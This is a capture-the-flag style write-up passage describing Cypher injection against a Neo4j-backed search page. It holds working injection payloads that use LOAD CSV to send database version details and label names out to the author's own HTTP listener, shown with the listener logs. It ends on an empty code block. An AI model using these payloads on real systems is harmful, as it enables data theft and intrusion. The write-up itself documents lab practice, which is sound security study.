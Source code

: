 ![](Images/Search1.png)

It looks like we can dump the entire table with a blank search, but how might we exploit this kind of database?

### Cypher Injection vulnerability in neo4j

Fortunately, [hacktricks has a page dedicated to cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j). 

Probing which injectable query is being used was quite a pain, as it will often result in 500 error or no change. Eventually, however, I found a payload in which the server will send database information to my own listener:
search payload:
```
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.139/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```
On my listener:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [22/Apr/2023 21:44:31] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [22/Apr/2023 21:44:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```
This current payload only produces the neo4j version, name, and edition. However, it we're looking for a way to dump all information on the database. Now that the injection is established, surely it won't be too hard?
Eventually I learn to dump databases:
```
' OR 1=1 WITH 1 as a CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.139/?d=' + d AS y RETURN y//
```
On listener:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [22/Apr/2023 23:48:22] "GET /?d=user HTTP/1.1" 200 -
10.10.11.210 - - [22/Apr/2023 23:48:22] "GET /?d=employee HTTP/1.1" 200 -
```
Employee is likely the data we are already viewing, and user likely has the login credentials we are seeking. After trying once again for several hours, I finally generate a payload that can dump the contents:
```
```